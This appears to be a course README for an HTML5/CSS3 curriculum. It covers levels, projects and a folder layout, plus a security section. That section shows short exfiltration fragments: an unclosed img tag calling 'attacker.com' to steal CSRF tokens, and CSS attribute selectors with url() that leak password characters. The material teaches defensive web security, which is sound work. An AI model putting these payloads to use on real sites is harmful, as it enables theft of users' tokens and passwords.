

# 🎨 02 - HTML5 & CSS3 Master Engineering Track

> 🌐 **Language:** **English** | [🇸🇦 النسخة العربية (README.ar.md)](./README.ar.md)

Welcome to the **HTML5 & CSS3 Master Engineering Track**!  
HTML and CSS are the structural skeleton and presentation layer of the modern web. This track goes far beyond basic syntax: it is an engineering curriculum designed to take you from foundational markup and the CSS Box Model, through modern layout architectures (Flexbox & CSS Grid) and Responsive Design, up to **Accessibility (a11y)** and **HTML/CSS Security Mechanics** (Dangling Markup, CSS Data Exfiltration, and Iframe Sandboxing).

---

## 🧭 Master Architectural Roadmap

Follow the 3-tiered progression path below:



---

## 📚 Curriculum Structure & Levels

| Tier | Focus Domain | Capstone Project | Direct Links |
| :--- | :--- | :--- | :---: |
| **Level 1 — Basic** | Document structure, tags, semantic text, links, media, CSS syntax, the Box Model, and layout display modes. | **Developer Portfolio Card** | [English Guide](./Level-1-Basic/README.md)<br>[دليل المستوى](./Level-1-Basic/README.ar.md) |
| **Level 2 — Foundation** | Semantic HTML5, accessible forms & validation, Flexbox 1D flow, CSS Grid 2D blueprints, and Mobile-First responsive layouts. | **Responsive SaaS Portal** | [English Guide](./Level-2-Foundation/README.md)<br>[دليل المستوى](./Level-2-Foundation/README.ar.md) |
| **Level 3 — Advanced & Security** | BEM architecture, CSS custom properties, WCAG accessibility, Iframe sandboxing, Dangling Markup Injection, and CSS Data Exfiltration. | **Hardened Dashboard & Security Labs** | [English Guide](./Level-3-Advanced-and-Security/README.md)<br>[دليل المستوى](./Level-3-Advanced-and-Security/README.ar.md) |

---

## 🛡️ The HTML & CSS Security Dimension

Most developers mistakenly believe security vulnerabilities only exist in backend code or JavaScript. In this track, you will discover that HTML and CSS contain severe attack vectors:

1. **Dangling Markup Injection:** Stealing CSRF tokens and sensitive account data using unclosed tags (`<img src="http://attacker.com/?...`) when JavaScript execution is completely blocked by Content Security Policy (CSP)!
2. **CSS Data Exfiltration:** Extracting secret input values (passwords, auth tokens) character-by-character using advanced CSS attribute selectors (`input[value^="a"] { background: url(...) }`) without writing a single line of JavaScript!
3. **Iframe Isolation & Clickjacking:** Enforcing the `sandbox` attribute and frame-ancestors directives to protect users from UI redress attacks.

---

## 📂 Active Directory Hierarchy

```plaintext
02-HTML-CSS/
├── README.md                                    # Master English Guide & Visual Roadmap
├── README.ar.md                                 # الدليل العربي الشامل للمسار
│
├── Level-1-Basic/                               # 🟢 LEVEL 1: Structure & The Box Model
│   ├── README.md & .ar.md
│   ├── Lessons/ (en/ & ar/)                     # 10 Step-by-Step Lessons
│   ├── Exercises/ (en/ & ar/)                   # 5 Layout Drills
│   └── Final-Project/ (en/ & ar/)               # Project: Developer Portfolio Card
│
├── Level-2-Foundation/                          # 🟡 LEVEL 2: Flexbox, Grid, Forms & Responsive
│   ├── README.md & .ar.md
│   ├── Lessons/ (en/ & ar/)                     # 10 Architectural Lessons
│   ├── Practical-Applications/ (en/ & ar/)      # Interactive Labs
│   └── Final-Project/ (en/ & ar/)               # Project: Responsive SaaS Portal
│
└── Level-3-Advanced-and-Security/               # 🔴 LEVEL 3: a11y, Security Flaws & Architecture
    ├── README.md & .ar.md
    ├── Lessons/ (en/ & ar/)                     # 8 Advanced & Security Lessons
    ├── Labs/                                    # Guided & Challenge Security Labs
    └── Final-Project/ (en/ & ar/)               # Project: Hardened Dashboard & Defense Labs
```

---

## 🚀 How to Begin

Start immediately with the foundations:  
👉 **[Begin Level 1: Lesson 01 - HTML Anatomy & Document Structure](./Level-1-Basic/Lessons/en/01-html-anatomy-and-document.md)**
